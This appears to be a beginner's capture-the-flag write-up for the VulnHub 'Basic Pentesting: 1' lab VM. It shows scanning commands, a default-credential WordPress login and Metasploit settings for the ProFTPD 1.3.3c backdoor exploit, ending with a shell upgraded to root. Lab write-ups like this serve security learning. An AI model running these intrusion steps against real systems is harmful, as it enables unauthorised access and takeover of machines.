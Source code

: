 # Basic Pentesting: 1 Writeup

## About the Capture the Flag 
Name: Basic Pentesting: 1\
Release date: 8 Dec 2017\
Author: [Josiah Pierce](https://www.vulnhub.com/author/josiah-pierce,569/)\
Series: [Basic Pentesting](https://www.vulnhub.com/series/basic-pentesting,143/)\
Link: [LINK TO CTF](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Start of writeup

### Introduction
This CTF is one of the first CTFs I've done whilst diving deeper into cybersecurity, it's a very simple, and beginner friendly CTF which serves the purpose of showing basic tools used to ennumerate a network and target. 

### Goal of the CTF
The goal of this CTF is to remotely attack the Virtual Machine and gain root access/privileges. 

### Gaining root access
Since there's only one goal during this CTF challenge, gaining root access of the VM, the goal is simple. The first step is to ennumerate the network and the target. Enumeration is the process of gaining more knowledge about the target you're attacking. Think about things like user names, machine names, network resources, open ports, versions of services running on the system. With the information gathered in this phase weak points of the system are exposed and points of entry are established.

The enumeration process during this CTF consisted of doing a [Netdiscover](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/) scan to see what the IP address is of the VM machine. 

```python
netdiscover -r 192.168.0.0
```

The scan returns the IP adress of 192.168.0.16, this will be the IP we'll be working with. The next step is to do an NMAP scan, NMAP is a scanning tool which allows us to map out the ports used on the target, what they're running and what version of it is running. For more information about NMAP, the different flags etc, visit [the NMAP website](https://nmap.org). For our CTF we use the following command:

```python
nmap -sC -sV -sS -AT4 192.168.0.16
```

![bpen_nmap.jpg](\images\bpen_nmap.jpg)
(/images/bpen_nmap.jpg)\

The scan shows that there are three ports: 21,22 and 80. Usually bu default, these ports run FTP, SSH and HTTP respectively. The first thing I do is try to see if there's anything interesting to find at the FTP part of things. The common "anonymous" user exists but the password is unknown, trying the usual things as anonymous/anonymous didn't work either. We'll leave FTP be for now.\

The next logical step is visting the website ran on port 80. Upon visiting the website we're greeted with a basic HTML page, saying it works.

(/images/landing_page.jpg)\

When checking the page's source code, which is often overlooked, there's nothing noticeable either. Seeing there's no buttons or links you can click to scout the website further, it's time for a directory buster tool. We'll use dirb for this. DIRB is a web content scanner it looks for existing and hidden Web Objects. You do this by launching an attack to a site where it goes through a common wordlist to check if they apply to that target. /admin for example is a commonly used Web Object which usually is hidden but existing.

```python
dirb http://192.168.0.16
```

(/images/dirb_find.jpg)\

This scan highlighted a lot of interesting things, it shows an interesting directory named "/secret". Also several WP components came to light, indicating that there is a WordPress website in the secret folder. Upon going to the directory you're greeted with a WordPress website with a login and some blog posts, navigate to the login page down at the page. Almost all well known networking devices and applications come preconfigured with a default password and username. Sometimes users of these devices and applications forget to change the password of this user or forget to remove this user entirely. In the case of WordPress the default name and password is "admin" & "admin". When we try this on this website, it actually works and it seems like the developers forgot to change the password to something different. Thanks to this mistake we now got access to the admin panel of the WordPress website. In other circumstances there's a possiblity to use the WPSCAN tool, a WordPress security scanner which can brute force usernames and passwords for WordPress.

(/images/admin_panel.jpg)\

One of the things you can do from here is upload a malicious PHP file that contains a shell which allows for commands to be executed from a shell on the target host. But I decided to see if there was other ways in. I decided to run a searchsploit request for the FTP version of the software running on port 21 earlier. Searchsploit looks for vulnerabilities in outdated versions of software.

```python
searchsploit ProFTPD 1.3.3c
```

(/images/searchsploit_ftp.jpg)\

As shown on the image the search resulted in finding a succesful backdoor exploit. The next step is by starting up the msfconsole and run the said exploit. The msfconsole is part of Metasploit. It allows you to efficiently use all the options available in Metasploit.

(/images/msfconsole.jpg)\

After setting up all the information for the exploit, the listening host (us), the target host, what port to target and what port we wanna listen on, it's time to execute the selected exploit. We executed the following command to set up the exploit:

```python
set RHOSTS 192.168.0.16
set payload 3
set LHOST 192.168.0.15
exploit
```

(/images/msfconsole_exploit.jpg)\

As you can see command shell is opened, although there's one small problem, theres no command line to be seen. To fix this, we need a little bit of Python code. After executing this line of code, we goot root access to the machine!!

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

(/images/pythonroot.jpg)\


### Conclusion
The Basic Pentesting - 1 CTF was very easy to complete. During this CTF we managed to exploit different parts of the system. The HTTP website by using a directory attack, the WordPress website by using WPSCAN/default credentials and of course using Metasploit to exploit FTP. Also some Python code was used to go from a limited shell to full root access. There were different approaches to this but I found using this approach to gaining root access did it for me. Good luck and have fun with this CTF!



